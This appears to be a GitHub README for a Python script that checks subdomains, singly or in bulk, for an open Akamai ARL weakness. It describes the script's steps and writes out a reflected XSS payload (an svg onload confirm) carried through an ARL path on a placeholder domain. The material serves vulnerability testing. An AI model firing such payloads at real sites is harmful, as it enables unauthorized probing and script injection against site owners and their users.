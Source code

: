 
# Akamai ARL Hack

Script to test open Akamai ARL vulnerability.

When successful, you can more or less load arbitrary Akamai-hosted content from the target subdomain.

## Usage

```
python arl.py <subdomain>

python arl.py list_of_subdomains.txt
```

Where the latter is a text file of line-delimited targets.

## What it tries to do

```
1. GET request to subdomain.example.org
2. If response doesn't suggest naked Akamai showing, exits
3. http://subdomain.example.org/7/100/33/1d/www.citysearch.com/search?what=reallylongstringtomakethepayloadforxssmoveoutofview&where=place%22%3E%3Csvg+onload=confirm(document.location)%3E
4. Prints 'true' or 'false' whether that payload seemed to work
```

## More info on ARL attacks

https://warandcode.com/post/akamai-arl-hack/

http://securityhorror.blogspot.com/2019/04/hacking-temporal-locality.html
